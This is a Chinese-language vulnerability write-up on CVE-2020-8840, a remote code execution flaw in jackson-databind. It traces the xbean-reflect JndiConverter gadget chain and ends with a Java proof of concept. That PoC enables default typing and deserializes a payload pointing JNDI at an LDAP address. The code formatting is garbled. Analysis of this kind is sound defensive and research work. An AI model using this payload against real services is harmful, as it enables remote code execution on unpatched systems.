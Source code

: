```yaml
---
title: （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞
id: zhfly2930
---
```


# （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞

## 一、漏洞简介

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

## 二、漏洞影响

*   jackson-databind 2.0.0 – 2.9.10.2
*   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson v1.2.62版本

## 三、复现过程

可以在git提交记录中清楚看到利用的具体类

![image](../img/8b000d33e4f4131c2c4d329e73daadb3.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![image](../img/efd24da3f1668d295eda6e504d8cf575.png)

随后跟进`toObject()`函数

![image](../img/854b733b32ccc1530ad0fc4e3a7b190c.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![image](../img/abfad8319c41a0b9284f16f795032d43.png)

此时出现经典的JNDI注入，text 刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![image](../img/4156a3a00b6e13b7a686abe538de6df3.png)

### poc

```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {

public static void main(String args[]) {

ObjectMapper mapper = new ObjectMapper();

```
 mapper.enableDefaultTyping();

    String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

    try {
        mapper.readValue(json, Object.class);
    } catch (IOException e) {
        e.printStackTrace();
    }

} 
``` `}` 
```
